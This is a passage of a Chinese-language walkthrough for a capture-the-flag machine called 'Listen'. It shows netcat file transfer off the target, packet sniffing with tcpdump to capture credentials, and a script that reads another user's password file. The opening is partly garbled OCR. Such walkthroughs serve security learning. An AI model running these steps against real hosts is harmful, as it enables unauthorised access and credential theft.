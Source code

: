 ```TypeScript
Ask me:
 i

Why
leo@listen:~$ 
```
逆向分析一下

```TypeScript
传文件
nc -lvp 1234 >poem
nc 192.168.9.3 1234 <poem
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.004.png)

这里存在一个缓存区溢出漏洞，但这个是无法利用的。因为编译器对其施加了保护措施

解密listen

靶机名肯定不是乱取的

listen的中文意思就是 听 监听

那我们监听一下这个ip

```TypeScript
tcpdump host 192.168.9.16 -A -n
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.005.png)

```这里我网络配置有问题。监听不到 
```
可以获取到一个用户名与密码 

以及提示 knock 1337端口 应该就是开放ssh服务端口

silence连进去

```TypeScript
silence@listen:~$ cat note.txt 
"listen" told me that if I listen, I will hear his password....
```


```TypeScript
silence@listen:~$ ls -al
total 36
drwxr-xr-x 3 silence silence 4096 Oct 16  2020 .
drwxr-xr-x 5 root    root    4096 Oct 16  2020 ..
-rw-r--r-- 1 silence silence  220 Oct 16  2020 .bash\_logout
-rw-r--r-- 1 silence silence 3526 Oct 16  2020 .bashrc
-rw-r----- 1 root    silence   53 Oct 16  2020 listen.sh
drwxr-xr-x 3 silence silence 4096 Oct 16  2020 .local
-rw-rw---- 1 silence silence   64 Oct 16  2020 note.txt
-rw-r--r-- 1 silence silence  807 Oct 16  2020 .profile
-rw------- 1 silence silence  260 Oct 16  2020 .Xauthority
silence@listen:~$ cat listen.sh 
#!/bin/sh
cat /home/listen/password.txt > /dev/pts/4
```
这条命令会将/home/listen/password.txt 的内容发送到dev/pts/4 这个终端
